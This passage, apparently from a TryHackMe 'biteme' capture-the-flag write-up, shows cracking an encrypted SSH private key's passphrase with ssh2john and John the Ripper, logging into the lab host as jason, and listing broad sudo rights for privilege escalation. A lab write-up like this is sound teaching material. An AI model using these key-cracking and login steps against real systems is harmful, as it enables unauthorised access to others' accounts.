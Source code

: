 However, we can't authenticate with the key yet - as seen in the header, it's been encrypted with a passphrase:
``` 
Proc-Type: 4,ENCRYPTED
``` 

**John the Ripper** has a tool called **ssh2john**, which generates a hash from the key file for us to crack.

```zsh 
# Generate a hash file

┌──(lassi㉿kali)-[~/tryhackme/biteme]
└─$ ssh2john id_rsa > id_rsa.hash                       

# Crack it with rockyou    

┌──(lassi㉿kali)-[~/tryhackme/biteme]
└─$ john -w=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>         (id_rsa)     
1g 0:00:00:00 DONE (2022-03-12 16:44) 50.00g/s 251200p/s 251200c/s 251200C/s christina1..dumnezeu
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
``` 

We can now log in with the key and the passphrase "`<redacted>`".

``` 
┌──(lassi㉿kali)-[~/tryhackme/biteme]
└─$ ssh jason@10.10.21.12 -i id_rsa
The authenticity of host '10.10.21.12 (10.10.21.12)' can't be established.
ED25519 key fingerprint is SHA256:3NvL4FLmtivo46j76+yqa43LcYEB79JAUuXUAYQe/zI.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:129: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.21.12' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Last login: Fri Mar  4 18:22:12 2022 from 10.0.2.2
jason@biteme:~$ 
``` 

Time to escalate! As usual, we start by checking the low-hanging fruit: **cronjobs**, **SUID files**, **capabilities**, **backup files**, and **sudo rights**, which gave us something:

```zsh 
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
``` 
